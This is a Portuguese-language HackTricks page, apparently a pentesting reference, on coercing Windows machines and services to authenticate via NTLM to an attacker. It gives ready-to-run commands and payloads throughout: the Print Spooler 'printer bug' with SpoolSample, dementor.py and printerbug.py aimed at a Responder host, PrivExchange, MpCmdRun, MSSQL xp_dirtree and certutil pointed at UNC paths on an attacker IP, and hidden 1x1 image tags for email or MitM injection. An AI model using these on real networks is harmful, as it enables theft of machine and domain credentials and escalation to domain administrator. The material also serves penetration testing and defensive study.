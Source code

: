 # Forçar Autenticação Privilegiada NTLM

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Você trabalha em uma **empresa de cibersegurança**? Quer ver sua **empresa anunciada no HackTricks**? ou quer ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o [repositório hacktricks](https://github.com/carlospolop/hacktricks) e [repositório hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) é uma **coleção** de **gatilhos de autenticação remota** codificados em C# usando o compilador MIDL para evitar dependências de terceiros.

## Abuso do Serviço Spooler

Se o serviço _**Print Spooler**_ estiver **habilitado**, você pode usar algumas credenciais AD já conhecidas para **solicitar** ao servidor de impressão do Controlador de Domínio uma **atualização** sobre novos trabalhos de impressão e simplesmente dizer para **enviar a notificação para algum sistema**.\
Observe que quando a impressora envia a notificação para sistemas arbitrários, ela precisa se **autenticar contra** esse **sistema**. Portanto, um atacante pode fazer com que o serviço _**Print Spooler**_ se autentique contra um sistema arbitrário, e o serviço **usará a conta do computador** nessa autenticação.

### Encontrando Servidores Windows no domínio

Usando o PowerShell, obtenha uma lista de máquinas Windows. Os servidores geralmente têm prioridade, então vamos focar neles:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Encontrando serviços Spooler ouvindo

Usando uma versão ligeiramente modificada do [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket) de @mysmartlogin (Vincent Le Toux), verifique se o Serviço Spooler está ouvindo:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Você também pode usar o rpcdump.py no Linux e procurar pelo Protocolo MS-RPRN.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Solicitar que o serviço se autentique em um host arbitrário

Você pode compilar [**SpoolSample daqui**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
ou use [**dementor.py** de 3xocyte](https://github.com/NotMedic/NetNTLMtoSilverTicket) ou [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) se estiver no Linux
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Combinando com Delegação Não Restrita

Se um atacante já comprometeu um computador com [Delegação Não Restrita](unconstrained-delegation.md), o atacante poderia **fazer a impressora autenticar-se neste computador**. Devido à delegação não restrita, o **TGT** da **conta de computador da impressora** será **salvo na** **memória** do computador com delegação não restrita. Como o atacante já comprometeu este host, ele será capaz de **recuperar este ticket** e abusá-lo ([Pass the Ticket](pass-the-ticket.md)).

## Autenticação Forçada RCP

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

O ataque `PrivExchange` é resultado de uma falha encontrada na **funcionalidade de `PushSubscription` do Exchange Server**. Esta funcionalidade permite que o servidor Exchange seja forçado por qualquer usuário de domínio com uma caixa de correio a autenticar-se em qualquer host fornecido pelo cliente via HTTP.

Por padrão, o **serviço Exchange é executado como SYSTEM** e possui privilégios excessivos (especificamente, possui **privilégios WriteDacl no domínio antes da Atualização Cumulativa de 2019**). Essa falha pode ser explorada para permitir o **encaminhamento de informações para o LDAP e, posteriormente, extrair o banco de dados NTDS do domínio**. Em casos onde o encaminhamento para o LDAP não é possível, essa falha ainda pode ser usada para encaminhar e autenticar-se em outros hosts dentro do domínio. A exploração bem-sucedida deste ataque concede acesso imediato ao Administrador de Domínio com qualquer conta de usuário de domínio autenticada.

## Dentro do Windows

Se você já estiver dentro da máquina Windows, você pode forçar o Windows a se conectar a um servidor usando contas privilegiadas com:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
Ou use esta outra técnica: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

É possível usar o lolbin certutil.exe (binário assinado pela Microsoft) para forçar a autenticação NTLM:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## Injeção de HTML

### Via email

Se você conhece o **endereço de e-mail** do usuário que faz login em uma máquina que deseja comprometer, você pode simplesmente enviar a ele um **e-mail com uma imagem 1x1** como:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
### MitM

Se você conseguir realizar um ataque MitM a um computador e injetar HTML em uma página que ele visualizar, você pode tentar injetar uma imagem como a seguinte na página:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Quebrando o NTLMv1

Se você conseguir capturar [desafios NTLMv1 leia aqui como quebrá-los](../ntlm/#ntlmv1-attack).\
_Lembre-se de que, para quebrar o NTLMv1, você precisa definir o desafio do Responder como "1122334455667788"_
